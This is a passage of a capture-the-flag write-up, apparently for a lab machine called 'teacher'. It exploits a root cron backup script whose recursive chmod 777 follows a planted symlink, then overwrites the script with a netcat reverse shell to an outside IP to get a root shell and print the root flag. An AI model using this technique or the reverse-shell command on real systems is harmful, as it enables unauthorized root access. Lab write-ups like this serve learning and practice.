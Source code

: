 #### 4.1. Work directory 
```
giovanni@teacher:~/work$ ls -la *
courses:
total 12
drwxr-xr-x 3 giovanni giovanni 4096 Jun 27  2018 .
drwxr-xr-x 4 giovanni giovanni 4096 Jun 27  2018 ..
drwxr-xr-x 2 root     root     4096 Jun 27  2018 algebra

tmp:
total 16
drwxr-xr-x 3 giovanni giovanni 4096 Jun 27  2018 .
drwxr-xr-x 4 giovanni giovanni 4096 Jun 27  2018 ..
-rwxrwxrwx 1 root     root      256 Jan 16 12:15 backup_courses.tar.gz
drwxrwxrwx 3 root     root     4096 Jun 27  2018 courses
```


#### 4.2. Backup script
```
giovanni@teacher:~/work/tmp$ grep -ir 'backup_courses.tar.gz' / 2>/dev/null
/usr/bin/backup.sh:tar -czvf tmp/backup_courses.tar.gz courses/*;
/usr/bin/backup.sh:tar -xf backup_courses.tar.gz;
^C
giovanni@teacher:~/work/tmp$ ls -la /usr/bin/backup.sh
-rwxr-xr-x 1 root root 138 Jun 27  2018 /usr/bin/backup.sh
giovanni@teacher:~/work/tmp$ cat /usr/bin/backup.sh
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
```
Note: `chmod 777 * -R;` can be abused to set RWX permissions on the `/usr/bin/backup.sh` script which is executed as `root` every minute


#### 4.3. Symbolic link to `/usr/bin/backup.sh` inside `/home/giovanni/work/tmp`
```
giovanni@teacher:~/work/tmp$ ln -s /usr/bin/backup.sh x
giovanni@teacher:~/work/tmp$ ls -la
total 16
drwxr-xr-x 3 giovanni giovanni 4096 Jan 16 17:06 .
drwxr-xr-x 4 giovanni giovanni 4096 Jun 27  2018 ..
-rwxrwxrwx 1 root     root      364 Jan 16 17:06 backup_courses.tar.gz
drwxrwxrwx 3 root     root     4096 Jan 16 17:06 courses
lrwxrwxrwx 1 giovanni giovanni   18 Jan 16 17:06 x -> /usr/bin/backup.sh
```


#### 4.4. Wait for first run
```
giovanni@teacher:~$ ls -la /usr/bin/backup.sh
-rwxrwxrwx 1 root root 138 Jun 27  2018 /usr/bin/backup.sh
giovanni@teacher:~$ cat > /usr/bin/backup.sh << EOF
#!/usr/bin/env sh
/bin/nc 10.10.14.21 8181 -e /bin/bash
EOF
```
Note: we can now write to `/usr/bin/backup.sh`


#### 4.5. After first run, our `backup.sh` will be executed as `root`
```
# ncat -nlvp 8181
Ncat: Version 7.40 ( https://nmap.org/ncat )
Ncat: Listening on :::8181
Ncat: Listening on 0.0.0.0:8181
Ncat: Connection from 10.10.10.153.
Ncat: Connection from 10.10.10.153:43934.
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
4f3a83b42ac7723a508b8ace7b8b1209
```
